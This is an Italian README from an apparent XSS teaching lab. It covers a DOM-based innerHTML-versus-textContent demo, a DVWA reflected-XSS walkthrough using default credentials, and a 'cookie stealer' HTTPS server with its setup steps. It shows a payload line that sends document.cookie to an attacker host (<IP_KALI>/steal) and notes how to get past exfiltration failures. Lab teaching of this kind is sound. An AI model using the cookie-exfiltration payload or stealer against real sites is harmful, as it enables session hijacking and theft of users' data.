




# Cross-Site Scripting (XSS)

Modulo didattico su attacchi XSS con laboratorio interattivo e server per furto cookie.

### Contenuto

| File | Descrizione |
|------|-------------|
| `xss-lab.html` | Laboratorio DOM-based: confronto `innerHTML` vs `textContent` |
| `xss-cookie-stealer.py` | Server HTTPS per ricevere cookie esfiltrati via XSS |

---

## Laboratorio DOM-based XSS

> Demo Live: [Accedi al Laboratorio Interattivo XSS](https://kevin011602.github.io/cybersecurity-lab/Exploitations/web-xss/xss-lab.html)

`xss-lab.html` è un'applicazione web interattiva che mostra la differenza tra integrazione vulnerabile e sicura in JavaScript.

### Funzionalità
- Confronto Side-by-Side: due aree di output per `innerHTML` e `textContent`
- Payload preimpostati: Alert XSS, Phishing overlay, Defacement, SVG XSS
- Interfaccia moderna: design responsive con variabili CSS

### Utilizzo

1. Apri `xss-lab.html` nel browser
2. Clicca su un payload di esempio
3. Premi "innerHTML (vulnerabile)" per vedere l'attacco
4. Premi "textContent (sicuro)" per vedere il blocco

---

## Cookie Stealer - Server HTTPS

`xss-cookie-stealer.py` implementa un server HTTPS avanzato per ricevere, analizzare e loggare parametri esfiltrati tramite XSS.

### Funzionalità
- Analisi Real-time: output formattato a colori (ANSI)
- Persistenza: logging in `audit_log.csv`
- Deep Inspection: decodifica automatica token Didomi (Base64/JSON)
- Identificazione vittima: IP e User-Agent

### Setup

1. Genera certificati SSL:

```bash
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.crt -days 365 -nodes
```

2. Avvia il server (richiede root per porta 443):

```bash
sudo python3 xss-cookie-stealer.py
```

3. Esempio di payload XSS da iniettare:

```javascript
new Image().src = "https://<IP_KALI>/steal?cookie=" + document.cookie;
```

### Struttura del Log (CSV)

Ogni evento viene registrato nel file `audit_log.csv` con la seguente struttura:
`Timestamp | IP Sorgente | Titolo Pagina | User-Agent | Cookie Raw`

---

## XSS su DVWA (Metasploitable 2)

Questa sezione documenta il test di Reflected XSS sull'applicazione DVWA (Damn Vulnerable Web Application) ospitata su Metasploitable 2.

### Preparazione dell'ambiente

1. Accedere a DVWA: http://192.168.23.134/dvwa/login.php

2. Credenziali di accesso:
| Campo | Valore |
|-------|--------|
| Username | `admin` |
| Password | `password` |

3. Impostare il livello di sicurezza su **Low**: http://192.168.23.134/dvwa/security.php


Selezionare `Low` e cliccare **Submit**.



### Test Reflected XSS

1. Navigare alla pagina vulnerabile: http://192.168.23.134/dvwa/vulnerabilities/xss_r/




2. Inserire il payload nel campo `What's your name?`:

```html
<script>alert("hacked")</script>
```



3. Cliccare su Submit (o visitare direttamente l'URL con il payload).

Il browser esegue il codice JavaScript iniettato, visualizzando un pop-up di alert.



### Perché funziona?

DVWA con livello di sicurezza Low non applica alcuna sanitizzazione all'input. Il payload viene riflesso dal server nella risposta HTML e il browser lo esegue al caricamento della pagina.

---

## Note di laboratorio

Durante il test, l'esfiltrazione potrebbe fallire per i seguenti motivi

- Certificati self-signed: è necessario visitare manualmente l'URL del server una volta e selezionare "Accetta il rischio e continua" nel browser della vittima.
- HttpOnly: i cookie protetti da questo flag non sono accessibili tramite `document.cookie` via JavaScript.
- Mixed Content: se il sito target è in HTTPS e il server è in HTTP, il browser bloccherà la richiesta (motivo per cui questo script usa SSL).

---

## Disclaimer

Questo materiale è creato esclusivamente per scopi educativi e ambienti di test autorizzati. Non utilizzare su sistemi senza esplicita autorizzazione.